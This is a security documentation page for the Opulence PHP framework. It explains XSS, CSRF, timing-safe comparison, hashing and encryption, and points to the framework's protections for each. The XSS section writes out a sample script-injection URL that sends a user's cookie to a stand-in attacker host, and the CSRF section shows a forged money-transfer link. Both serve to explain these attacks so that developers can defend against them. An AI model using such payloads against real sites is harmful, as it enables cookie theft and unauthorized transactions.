 # Security

## Table of Contents
1. [Introduction](#introduction)
2. [Generating Random Strings](#generating-random-strings)
  1. [What is It?](#random-strings-what-is-it)
  2. [How to Use It](#random-strings-how-to-use-it)
3. [Comparing Strings](#comparing-strings)
  1. [What is It?](#comparing-strings-what-is-it)
  2. [How to Use It](#comparing-strings-how-to-use-it)
4. [Hashing](#hashing)
  1. [What is It?](#hashing-what-is-it)
  2. [How to Use It](#hashing-how-to-use-it)
5. [Encryption](#encryption)
  1. [What is It?](#encryption-what-is-it)
  2. [How to Use It](#encryption-how-to-use-it)
6. [Cross-Site Scripting (CSS)](#cross-site-scripting)
  1. [What is It?](#css-what-is-it)
  2. [How to Defend Against It](#css-how-to-defend-against-it)
7. [Cross-Site Request Forgery (CSRF/XSRF)](#cross-site-request-forgery)
  1. [What is It?](#csrf-what-is-it)
  2. [How to Defend Against It](#csrf-how-to-defend-against-it)

<h2 id="introduction">Introduction</h2>
Building a secure application is extremely difficult.  Protecting your users from cross-site scripting, cross-site request forgeries, and session hijacking requires a lot of tools.  Fortunately, you don't have to be a security expert to take advantage of all the protection Opulence delivers out of the box.

<h2 id="generating-random-strings">Generating Random Strings</h2>
<h4 id="random-strings-what-is-it">What is It?</h4>
Random strings are commonly used to ensure security for things like session Ids and authentication tokens.  If your random strings are not so random, then your entire application can be compromised.

<h4 id="random-strings-how-to-use-it">How to Use It</h4>
Learn how to [generate random strings](cryptography#generating-random-strings) in Opulence.

<h2 id="comparing-strings">Comparing Strings</h2>
<h4 id="comparing-strings-what-is-it">What is It?</h4>
Comparing sensitive strings, like hashes and tokens, using PHP's `==` operator can give away information about the string you're comparing against.  For example, comparing "aaa" to "bbb" will return `false` faster than "aaa" and "aab" because PHP's comparison operator returns false at the first differing character.  Using 
a sensitive timer and many iterations, a hacker could figure out any secured hash that's being compared with user input.

<h4 id="comparing-strings-how-to-use-it">How to Use It</h4>
Learn how to [securely compare strings](cryptography#string-comparison) in Opulence.
   
<h2 id="hashing">Hashing</h2>
<h4 id="hashing-what-is-it">What is It?</h4>
Hashing involves performing a one-way mapping of input to a hashed value, which is suitable for storing sensitive data.  

<h4 id="hashing-how-to-use-it">How to Use It</h4>
Learn how to [hash data](cryptography#hashing) in Opulence.
   
<h2 id="encryption">Encryption</h2>
<h4 id="encryption-what-is-it">What is It?</h4>
Encryption is the process of encoding data with a special key so that only authorized parties may read it.  

<h4 id="encryption-how-to-use-it">How to Use It</h4>
Learn how to [encrypt data](cryptography#encryption) in Opulence.

<h2 id="cross-site-scripting">Cross-Site Scripting (CSS)</h2>
<h4 id="css-what-is-it">What is It?</h4>
Cross-site scripting involves the injection of client-side scripts into your pages.  A common vulnerability is displaying unsanitized user input to your page:

```php
Hello, <?php echo $_GET["name"]; ?>
```

A malicious user could send an unsuspecting user a hyperlink with a CSS injection in the URL:  `http://your-site.com/?name=<script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>`.  Clicking on the link would take the user to your page, which would display:

```
Hello, <script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>
```

Loading this page would send the user's "user-password" cookie to the attacker's server.

<h4 id="css-how-to-defend-against-it">How to Defend Against It</h4>
To solve this problem you must sanitize any user-input before displaying it on a page.  [Opulence's template system](view-basics#cross-site-scripting) gives you the tools to prevent cross-site scripting.

<h2 id="cross-site-request-forgery">Cross-Site Request Forgery (CSRF/XSRF)</h2>
<h4 id="csrf-what-is-it">What is It?</h4>
Cross-site request forgery is an attack where unauthorized commands are sent to a trusted site through an authenticated user.  For example, a malicious user might send a normal user Bob the following hyperlink:  `http://your-site.com/transferMoney?amount=1000&to=attacker-account-Id`.  If Bob was logged into your site, clicking this link would attempt to transfer money to the attacker's account without Bob's authorization.

<h4 id="csrf-how-to-defend-against-it">How to Defend Against It</h4>
To prevent this from happening, a unique token should be embedded in every form and with every session.  When the form is submitted, the form token and session token should be compared, and if they are not equal, the submission should be rejected.  In the example case above, the form token would not be set.  With CSRF protection in place, the form and session tokens would not match, and the form submission would be rejected.

Opulence automatically generates and compares the tokens using middleware.  To include the token in your form, use the `{{! csrfInput() !}}` view function in your view.  This will create a hidden input with your token, which will validate against the session token.  You can also use the `{{ csrfToken() }}` template function to print the token in elements like meta tags:

```php
<meta name="csrf-token" content="{{ csrfToken() }}">
```

To give you CSRF protection in JavaScript, Opulence sets the `XSRF-TOKEN` cookie, which some frameworks use to automatically set the `X-XSRF-TOKEN` Http header in requests.